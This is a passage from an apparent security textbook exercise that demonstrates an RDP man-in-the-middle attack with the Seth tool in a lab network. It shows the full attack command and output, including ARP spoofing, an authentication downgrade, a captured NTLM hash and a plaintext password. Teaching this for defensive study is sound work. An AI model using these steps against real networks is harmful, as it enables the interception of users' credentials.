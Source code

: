# Exercise: Using Seth in a Man-in-the-Middle Attack

Hack The Box doesn't have any good examples of RDP exploitation and so to illustrate at least one vulnerability, you will demonstrate how easy it is to get a person's password using Seth.

For this demonstration, you have a Windows 10 box that is configured to accept remote desktop connections as the target. You can use your Windows 10 Commando box if you have set that up. The victim is a remote desktop connection client from any other machine on the network, including the computer you are using to run the VMs on. The attacker machine is our ParrotSec VM. The network is shown in Figure 3-6 below.

![Network diagram of RDP man-in-the-middle attack](../.gitbook/assets/sethdiagram.png)

When you run Seth on the attacker machine and then try and connect using the Remote Desktop Client, you get this output:

```bash
┌─[rin@parrot]─[/opt/Seth]
└──╼ $sudo ./seth.sh eth0 10.0.1.7 10.0.1.5 10.0.1.8
███████╗███████╗████████╗██╗ ██╗
██╔════╝██╔════╝╚══██╔══╝██║ ██║ by Adrian Vollmer
███████╗█████╗ ██║ ███████║ seth@vollmer.syss.de
╚════██║██╔══╝ ██║ ██╔══██║ SySS GmbH, 2017
███████║███████╗ ██║ ██║ ██║ https://www.syss.de
╚══════╝╚══════╝ ╚═╝ ╚═╝ ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.0.1.27
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.0.1.5:61220
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Connection received from 10.0.1.5:61232
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Failed to extract keyboard layout information
rin:::afb99ab9d701d668:9511818e381cab338594796e923386ef:010100000000000007cbbd3eb4b8d601699b03023078129f0000000002001e004400450053004b50000bf00510001001e004400450053004b3344550004001e004400450053004b0054004f0050002d004900520052004b0044004e00510003001e004400450053004b0054004f0050002d004900520052004b0044004e0051000700080007cbbd3eb4b8d60106000cd00020000000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection received from 10.0.1.5:61233
Warning: RC4 not available on client, attack might not work
Listening for new connection
Server enforces NLA; switching to 'fake server' mode
Enable SSL
Connection lost on enableSSL: [Errno 104] Connection reset by peer
Hiding forged protocol request from client
.\rin:S3cr3tP@55w0rd
[*]
```

In this scenario, Network Level Authentication had been configured and so Seth was not able to complete the attack and the connection fails with an error. However, the plaintext username and password are still obtained by the attacker. If the NLA requirement option is switched off, the connection completes, and the user would not be any the wiser.

